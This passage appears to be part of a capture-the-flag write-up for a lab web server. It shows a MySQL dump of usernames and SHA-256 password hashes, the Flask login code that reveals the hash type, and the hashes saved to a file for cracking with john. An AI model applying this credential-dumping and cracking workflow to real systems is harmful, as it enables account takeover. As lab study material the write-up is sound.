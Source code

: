 ```bash
mysql> select username,password from users;
+----------+------------------------------------------------------------------+
| username | password                                                         |
+----------+------------------------------------------------------------------+
| admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 |
| consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa |
+----------+------------------------------------------------------------------+
2 rows in set (0.00 sec)
```

There are two hashes, one for admin and another for consuela. This hashes are sha256 as can be shown in the login functionality of the script that runs the webserver:

```python
www-data@iclean:/opt/app$ cat app.py 
<..SNIP..>
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html', error=False)
    elif request.method == 'POST':
        username = request.form['username']
        password = hashlib.sha256(request.form['password'].encode()).hexdigest()

        with pymysql.connect(**db_config) as conn:
            with conn.cursor() as cursor:
                cursor.execute('SELECT role_id FROM users WHERE username=%s AND password=%s', (username, password))
                result = cursor.fetchone()

                if result is None:
                    return render_template('login.html',error='Invalid username or password')
                else:
                    session['role'] = result[0]
                    if session['role'] == hashlib.md5(b'admin').hexdigest():
                        return redirect(url_for('dashboard'))
                    else:
                        return redirect(url_for('/'))
    else:
        return make_response('Invalid request format.', 400)
<..SNIP..>
```

I will try to crack them with john and the consuela one is crackable:

```bash
❯ cat sql-hashes.txt
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: sql-hashes.txt
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ admin:2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51
   2   │ consuela:0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
